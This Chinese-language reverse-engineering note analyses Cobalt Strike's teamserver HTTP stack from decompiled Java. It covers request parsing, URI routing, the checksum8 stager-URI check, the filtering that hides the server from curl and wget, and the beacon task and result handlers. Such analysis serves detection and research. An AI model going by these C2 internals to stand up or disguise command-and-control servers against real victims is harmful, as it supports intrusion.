

[TOC]

# overview

`WebService`的实现定义了Cobalt strike的具体uri所做的事情，相当于MVC里的Controller。



`WebService`的子类如上图，说明了Cobaltstrike的http server实现的功能

`WebServer.WebListener`是一个接收已处理请求的接口

`WebCalls`实现了ServerHook, WebServer.WebListener，其中WebListener的实现为添加一个weblog，然后广播给所有用户

`beacon.BeaconHTTP`有两个内部类，`beacon.BeaconHTTP.PostHandler`和`beacon.BeaconHTTP.GetHandler`继承于`MalleableHook`，并且满足：

- post负责接收结果，不返回任何数据
- get负责发送任务，并使用对称加密task数据

# 分析

## HTTP

### NanoHTTPD

`cloudstrike.NanoHTTPD`是修改了部分代码的`NanoHTTPD`

主要逻辑很简单，新连接新建`HTTPSession`:

`cloudstrike.NanoHTTPD#listen`

```java
                    //...
					while (NanoHTTPD.this.alive) {
                        try {
                            final Socket temp = NanoHTTPD.this.ss.accept();
                            if (temp == null) {
                                continue;
                            }
                            new HTTPSession(temp);
                            //...
```

`HTTPSession`实现了`Runnable`，主要逻辑在`run`内：

`cloudstrike.NanoHTTPD.HTTPSession#run`

```java
// 空白字符分割第一段http报文
final String request = this.readLine(in);
final StringTokenizer st = new StringTokenizer((request == null) ? "" : request);
// ...
final String method = st.nextToken();
// ...
String uri = st.nextToken();
final Properties header = new Properties();
final Properties parms = new Properties();
final int qmi = uri.indexOf(63);  // 63 == '?'
if (qmi >= 0) {
    header.put("QUERY_STRING", uri.substring(qmi + 1));
    this.decodeParms(uri.substring(qmi + 1), parms);
    uri = this.decodePercent(uri.substring(0, qmi));
}
else {
    uri = this.decodePercent(uri);
}
if (st.hasMoreTokens()) {
	// 这一段就是parse headers的过程，根据':'分割接下来的每行，放入header中去
}
if (method.equalsIgnoreCase("POST")) {  // 如果是post额外进行下面的步骤
	long size = 0L;
	final String contentLength = header.getProperty("Content-Length");
    // 根据content-length获取body的大小
	if (contentLength != null) {
	    try {
	        size = Integer.parseInt(contentLength);
	    }
	    catch (NumberFormatException ex) {}
	}
	if (size > 10485760L) {
	    this.sendError("413 Entity Too Large", "BAD REQUEST: Request Entity Too Large");
	}
	if (size > 0L) {
        // 根据上面获取的大小读取http报文剩下的内容
	    final byte[] all = new byte[(int)size];
	    in.readFully(all, 0, (int)size);
        // 当Content-Type为application/octet-stream或者是事先注册的只接收原始字节流的uri
	    if ("application/octet-stream".equals(header.getProperty("Content-Type")) || NanoHTTPD.this.alwaysRaw(uri)) {
            // 二进制数据两个键值：length和input
	        final ByteArrayInputStream bis = new ByteArrayInputStream(all);
	        parms.put("length", new Long(all.length));
	        parms.put("input", bis);
	    }
	    else {
            // 非二进制数据则假设是application/x-www-form-urlencoded，跟get query string一样解码放入parms
	        this.decodeParms(new String(all), parms);
	    }
	}
}

header.put("REMOTE_ADDRESS", this.mySocket.getInetAddress().toString());
final Response r = NanoHTTPD.this.serve(uri, method, header, parms);  // 最后调用外部类的serve方法

// ...
```

上面一些方法的用途：

* `cloudstrike.NanoHTTPD.HTTPSession#decodePercent`：就是urldecode
* `cloudstrike.NanoHTTPD.HTTPSession#decodeParms`: 解析get query string，存入parms里，parms是Properties对象实际上就是一个HashTable

`run`方法剩下的部分还有一点：

```java
// 如果定义了过滤器，会根据调用过滤器
if (NanoHTTPD.this.filter != null) {
    NanoHTTPD.this.filter.filterResponse(r);
}
```


### WebServer

`cloudstrike.WebServer`继承了`NanoHTTPD`

字段的说明：

```java
    // Map<String, WebService>  相当于路由中用来存放uri对应controller的映射
    // @key: uri
    // @val: 实现了特定功能WebService，比如ServeFile、StaticContent
    protected Map hooks;
    protected Map hooksSecondary;
    // Map<String, bool> 这里面存放着不需要parse body里的post参数的url，即raw url
    // @key: uri
    // @val: 始终是true
    protected Map always;
    // Map<String, String>
    // @key: uri
    // @val: host
    protected Map hosts;
    // 每受到一个请求都会向该链表里的WebListener发该请求的结果，由于只有WebCalls实现了，因此可以理解为每个WebListener都会
    // 对该次请求产生weblog
    protected List weblisteners;
```


上面分析到`run`方法最终会调用外部类的`serve`方法：

```java
    public Response serve(final String uri, final String method, final Properties header, final Properties param) {
        return this.handleRanges(method, header, this._serve(uri, method, header, param));
    }
```

`serve`方法调用`_serve`方法

这个方法实际上是一个路由，根据不同的uri获取`WebService`，然后调用真正的`WebService`

`cloudstrike.WebServer#_serve`做了下列的判断：

* 符合这个判断直接返回404：`useragent.startsWith("lynx") || useragent.startsWith("curl") || useragent.startsWith("wget")`
* `OPTIONS`请求返回`OPTIONS,GET,HEAD,POST`

然后进入路由判断：

* `this.hooks`中有该uri，取出`WebService`，调用
* `this.hooksSecondary`中有该uri，取出`WebService`,调用
* `this.hooks`中有该`uri + '/'`，取出`WebService`，调用
* `this.hooksSecondary`中有该`uri + '/'`，取出`WebService`,调用
* uri开始是`http://`，如果`this.hooks`中有`proxy`，则调用，否则返回404

如果上面的都不满足，则进入判断默认的`stager uri`的流程。

先看它是如何判断是stager的uri的：

`cloudstrike.WebServer`

```java

	public static long checksum8(String text) {
        if (text.length() < 4) {
            return 0L;
        }
        text = text.replace("/", "");
        long sum = 0L;
        for (int x = 0; x < text.length(); ++x) {
            sum += text.charAt(x);
        }
        return sum % 256L;
    }
    
    public static boolean isStager(final String uri) {
        return checksum8(uri) == 92L;
    }
    
    public static boolean isStagerX64(final String uri) {
        return checksum8(uri) == 93L && uri.matches("/[A-Za-z0-9]{4}");
    }
    
    public static boolean isStagerStrict(final String uri) {
        return isStager(uri) && uri.length() == 5;
    }
    
    public static boolean isStagerX64Strict(final String uri) {
        return isStagerX64(uri) && uri.length() == 5;
    }
```

也就是我们常常看到默认设置下请求`stage`请求的uri是像这种`/AbCd`，就会进入到这里了。

然后就会根据上面这些方法来使用对应的`WebService`，如果不存在则返回404。

中间还会遍历`this.hooksSecondary`:

`cloudstrike.WebServer#_serve`

```java
// ...
for (final Map.Entry e : this.hooksSecondary.entrySet()) {
    final WebService svc = e.getValue();
    final String hook = e.getKey() + "";
    // 如果uri开始部分是hooksSecondary的键，并且该WebService是模糊匹配
    if (uri.startsWith(hook) && svc.isFuzzy()) {
        return this.processResponse(uri, method, header, param, false, svc, svc.serve(uri.substring(hook.length()), method, header, param));
    }
}
// ...
```

当产生响应对象后会进入：

```java
protected Response processResponse(final String uri, final String method, final Properties header, final Properties param, final boolean primary, final WebService service, final Response r) {
    String desc;
    if (service == null) {
        desc = null;
    }
    else {
        desc = service.getType() + " " + service.toString();
    }
    final String resp = r.status;
    final long size = r.size;
    if (service == null || !service.suppressEvent(uri)) {
        // 如果service不为null并且会产生事件
        this.fireWebListener(uri, method, header, param, desc, primary, resp, size);
    }
    return r;
}
```

`cloudstrike.WebServer#fireWebListener`

```java
        final Iterator i = this.weblisteners.iterator();
        while (i.hasNext()) {
            i.next().receivedClient(uri, method, header, param, desc, primary, response, size);
        }
```

遍历所有`WebListener`调用`receivedClient`方法

实践上`WebListener`的实现只有`WebCalls`，`WebCalls`的`receivedClient`就是记录weblog的过程。

`processResponse`结束后response对象继续进入`handleRanges`方法，当条件符合`header.containsKey("Range") && "GET".equals(method) && original.size > 0L && original.data != null && "200 OK".equals(original.status)`，original就是Response对象，也就是会根据http协议规范里的定义，对返回结果进行处理，只返回相应范围的数据。

### Malleable Hook

`c2profile.MalleableHook`是实现了`cloudstrike.WebService`的类，负责实现可自定义的c2 http的通信。

`serve`方法是主要逻辑：

```java
    public Response serve(final String uri, final String method, final Properties headers, final Properties param) {
        try {
            final Response response = new Response("200 OK", null, (InputStream)null);
            this.profile.apply(this.key + ".server", response, this.hook.serve(uri, method, headers, param));  // 调用MyHook接口的serve方法，然后使用c2profile将response转换为c2profile里定义的格式
            return response;
        }
        catch (Exception ex) {
            ex.printStackTrace();
            return new Response("500 Internal Server Error", "text/plain", "Oops... something went wrong");
        }
    }
```

### BeaconHTTP

`beacon.BeaconHTTP`实现了MyHook接口，提供了Get和Post Handler。

`beacon.BeaconHTTP.PostHandler`

```java
private class PostHandler implements MalleableHook.MyHook
{
    @Override
    public byte[] serve(final String uri, final String method, final Properties headers, final Properties param) {
        try {
        	// 如果定义了trust_x_forwarded_for并且存在X-Forwarded-For，则从X-Forwarded-For中取得远程地址
            final String remoteAddress = ServerUtils.getRemoteAddress(BeaconHTTP.this.c2profile, headers);
            // 获取param中input键的流，实际上就是未parse的body，然后转换成string
            final String postedData = BeaconHTTP.this.getPostedData(param);
            // 获取beacon id
            final String s = new String(BeaconHTTP.this.c2profile.recover(".http-post.client.id", headers, param, postedData, uri));
            if (s.length() == 0) {
                CommonUtils.print_error("HTTP " + method + " to " + uri + " from " + remoteAddress + " has no session ID! This could be an error (or mid-engagement change) in your c2 profile");
                MudgeSanity.debugRequest(".http-post.client.id", headers, param, postedData, uri, remoteAddress);
            }
            else {
            // 根据c2profile的定义转换接受的数据
                final byte[] bytes = CommonUtils.toBytes(BeaconHTTP.this.c2profile.recover(".http-post.client.output", headers, param, postedData, uri));
                // 进入真正处理beacon请求的方法，即beacon.BeaconC2#process_beacon_data
                if (bytes.length == 0 || !BeaconHTTP.this.controller.process_beacon_data(s, bytes)) {
                    MudgeSanity.debugRequest(".http-post.client.output", headers, param, postedData, uri, remoteAddress);
                }
            }
        }
        catch (Exception ex) {
            MudgeSanity.logException("beacon post handler", ex, false);
        }
        return new byte[0];  // 只接受不返回任何数据
    }
}
```

`beacon.BeaconHTTP.GetHandler`

```java
public byte[] serve(final String s, final String s2, final Properties properties, final Properties properties2) {
    // 如果定义了trust_x_forwarded_for并且存在X-Forwarded-For，则从X-Forwarded-For中取得远程地址
    final String remoteAddress = ServerUtils.getRemoteAddress(BeaconHTTP.this.c2profile, properties);
    // 根据C2Profile转换metadata
    final String recover = BeaconHTTP.this.c2profile.recover(".http-get.client.metadata", properties, properties2, BeaconHTTP.this.getPostedData(properties2), s);
    if (recover.length() == 0 || recover.length() != 128) {
        CommonUtils.print_error("Invalid session id");
        MudgeSanity.debugRequest(".http-get.client.metadata", properties, properties2, "", s, remoteAddress);
        return new byte[0];
    }
    
    // parse metadata，然后获取对应的BeaconEntry
    final BeaconEntry process_beacon_metadata = BeaconHTTP.this.controller.process_beacon_metadata(remoteAddress, CommonUtils.toBytes(recover), null, 0);
    if (process_beacon_metadata == null) {
        MudgeSanity.debugRequest(".http-get.client.metadata", properties, properties2, "", s, remoteAddress);
        return new byte[0];
    }
    
    // 获取该beacon队列中的task
    final byte[] dump = BeaconHTTP.this.controller.dump(process_beacon_metadata.getId(), 921600, 1048576);
    if (dump.length > 0) {
        // 对称加密task返回
        return BeaconHTTP.this.controller.getSymmetricCrypto().encrypt(process_beacon_metadata.getId(), dump);
    }
    return new byte[0];
}
```


详细协议分析参考C2Protocol.md